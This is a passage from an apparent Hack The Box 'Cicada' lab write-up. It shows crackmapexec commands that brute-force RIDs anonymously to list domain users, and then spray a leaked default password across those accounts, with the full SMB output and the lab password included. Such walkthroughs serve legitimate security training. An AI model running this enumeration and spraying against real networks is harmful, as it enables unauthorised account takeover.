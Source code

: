Let's get a clear list of users (and groups) so then it's better to try the password:
```
┌──(oriol㉿zero)-[~]
└─$ crackmapexec smb cicada.htb  -u anonymous -p '' --users --rid-brute | awk '{print $6}' | uniq | tee users.txt
Windows
cicada.htb\anonymous:
Error
Trying
Brute
CICADA\Enterprise
CICADA\Administrator
CICADA\Guest
CICADA\krbtgt
CICADA\Domain
CICADA\Cert
CICADA\Schema
CICADA\Enterprise
CICADA\Group
CICADA\Read-only
CICADA\Cloneable
CICADA\Protected
CICADA\Key
CICADA\Enterprise
CICADA\RAS
CICADA\Allowed
CICADA\Denied
CICADA\CICADA-DC$
CICADA\DnsAdmins
CICADA\DnsUpdateProxy
CICADA\Groups
CICADA\john.smoulder
CICADA\sarah.dantelia
CICADA\michael.wrightson
CICADA\david.orelious
CICADA\Dev
CICADA\emily.oscars
```

Let's try password sparying now, with the same crackmapexec command, but instead of `-u anonymous` we can use the users.txt we got previously and also the password.
```
┌──(oriol㉿zero)-[~]
└─$ crackmapexec smb cicada.htb -d cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
SMB         cicada.htb      445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\Enterprise:Cicada$M6Corpb*@Lp#nZp!8 
SMB         cicada.htb      445    CICADA-DC        [-] CICADA\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         cicada.htb      445    CICADA-DC        [-] CICADA\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         cicada.htb      445    CICADA-DC        [-] CICADA\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\Domain:Cicada$M6Corpb*@Lp#nZp!8 
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\Cert:Cicada$M6Corpb*@Lp#nZp!8 
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\Schema:Cicada$M6Corpb*@Lp#nZp!8 
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\Enterprise:Cicada$M6Corpb*@Lp#nZp!8 
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\Group:Cicada$M6Corpb*@Lp#nZp!8 
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\Read-only:Cicada$M6Corpb*@Lp#nZp!8 
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\Cloneable:Cicada$M6Corpb*@Lp#nZp!8 
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\Protected:Cicada$M6Corpb*@Lp#nZp!8 
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\Key:Cicada$M6Corpb*@Lp#nZp!8 
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\Enterprise:Cicada$M6Corpb*@Lp#nZp!8 
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\RAS:Cicada$M6Corpb*@Lp#nZp!8 
```